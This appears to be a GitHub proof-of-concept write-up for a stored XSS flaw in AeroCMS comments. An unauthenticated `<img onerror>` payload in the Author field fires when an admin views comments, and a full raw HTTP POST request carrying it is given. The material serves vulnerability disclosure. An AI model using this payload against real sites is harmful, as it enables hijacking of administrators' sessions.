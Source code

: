 # AeroCMS-Comment-Stored_XSS-POC
* Description: Don't need register or login account 
## Step to Reproduct
* Click `Read More` -> input payload `<img/src/onerror=prompt(10)>` at `Author` -> click `Submit` button 
# Exploit
* Input payload at `Author` -> click `Submit` button
![image](https://user-images.githubusercontent.com/79050415/157009053-539e0d0f-8de7-449f-9815-2059c15179ab.png)
* When admin login to admin panel and click `Comments` -> The XSS will trigger 
![image](https://user-images.githubusercontent.com/79050415/157009623-8afdecf4-8bfc-48ed-be9c-a298628eeb5f.png)
* Finally, Success !!!!
![image](https://user-images.githubusercontent.com/79050415/157009805-fc9c33bb-7ae9-4229-9051-081c23d72b92.png)
# Vulnerable Code

# POC
```c
POST /AeroCMS/post.php?p_id=36 HTTP/1.1
Host: localhost:8080
Content-Length: 126
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/AeroCMS/post.php?p_id=36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=loqbt1ibs376hge1s415srq441
Connection: close

comment_author=%3Cimg%2Fsrc%2Fonerror%3Dprompt%2810%29%3E&comment_email=bin%40gmail.com&comment_content=hacked&create_comment=
```
`POC VIDEO` https://drive.google.com/file/d/1GxOyX1JkG0trfdaCLfe06TR6WLIGoUXE/view?usp=sharing
